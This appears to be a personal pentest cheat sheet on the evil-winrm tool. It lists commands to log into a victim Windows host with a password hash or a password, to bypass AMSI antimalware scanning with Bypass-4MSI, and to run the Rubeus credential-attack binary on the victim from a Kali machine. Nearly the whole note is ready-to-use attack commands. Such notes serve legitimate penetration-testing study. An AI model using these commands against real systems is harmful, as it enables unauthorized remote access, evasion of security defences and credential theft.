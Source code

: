 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

evil-winrm

~~~bash
evil-winrm -i Victim_IP -u User -H Hash
~~~

~~~bash
evil-winrm -i 10.100.1.5 -u svc.account -p password -P port
~~~

Displaying Evil-WinRM Options:

~~~bash
menu
~~~

Bypassing AMSI in a Evil-WinRM Console:

~~~bash
Bypass-4MSI
~~~

Remotely running Binary from Kali Box on Victim PC:

~~~bash
Invoke-Binary /home/kali/Rubeus.exe
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
